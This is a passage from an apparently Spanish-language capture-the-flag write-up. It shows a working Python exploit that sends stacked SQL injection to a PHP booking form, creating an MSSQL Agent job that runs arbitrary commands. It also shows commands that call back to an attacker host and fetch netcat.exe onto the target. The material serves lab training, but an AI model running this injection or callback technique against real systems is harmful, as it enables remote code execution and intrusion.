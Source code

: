 ```python
    sys.exit(1)  # Sale del script con un código de salida 1 (indicando un error).

command = sys.argv[1]
# Obtiene el comando que se pasó como argumento al script.

target = "http://10.13.38.20/book-trip.php"
# Establece el objetivo al que se realizarán las solicitudes. Parece ser una URL.

name = "".join(random.choices(string.ascii_lowercase, k=8))
# Genera un nombre aleatorio de 8 caracteres utilizando letras minúsculas del alfabeto inglés.

query = f"""
use msdb;
exec as login = N'daedalus_admin';
exec msdb.dbo.sp_add_job @job_name = N'{name}_job';
exec msdb.dbo.sp_add_jobstep @job_name = N'{name}_job', @step_name = N'{name}_step', @subsystem = N'cmdexec', @command = N'C:\\Windows\\System32\\cmd.exe /c {command}', @retry_attempts = 1, @retry_interval = 5, @proxy_id = 1;  
exec msdb.dbo.sp_add_jobserver @job_name = N'{name}_job';
exec msdb.dbo.sp_start_job @job_name = N'{name}_job';
"""
# Construye una consulta SQL para ejecutar en la base de datos del destino.
# La consulta parece estar diseñada para agregar un trabajo (job) en la base de datos MSDB de SQL Server,
# con el objetivo de ejecutar un comando proporcionado como argumento.

data = {"destination": f"'; {query}-- -"}
# Construye un diccionario con una clave "destination" y un valor que parece ser una inyección SQL.
# La parte interesante aquí es que la inyección SQL se hace utilizando el valor de query,
# que es el comando construido anteriormente.
# El --; - al final es para comentar el resto de la consulta SQL original y evitar errores.

requests.post(target, data=data)
# Realiza una solicitud HTTP POST al objetivo con los datos proporcionados.
```

Vamos a realizar una comprobación. 

```bash
❯ python3 exploit.py 'curl 10.10.14.6'  
```

```bash
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...  
10.13.38.20 - - "GET / HTTP/1.1" 200 -
```

  
Nuestro objetivo es obtener acceso al sistema. Para lograrlo, comenzamos descargando el ejecutable netcat.exe en la ubicación C:\ProgramData, la cual es una ruta que todos los usuarios tienen permisos de escritura.

Utilizamos un script en Python llamado exploit.py para realizar la descarga del netcat.exe. Este script utiliza el comando curl para descargar el archivo desde una ubicación remota (10.10.14.10/netcat.exe) y lo guarda en C:\ProgramData\netcat.exe en el sistema comprometido.
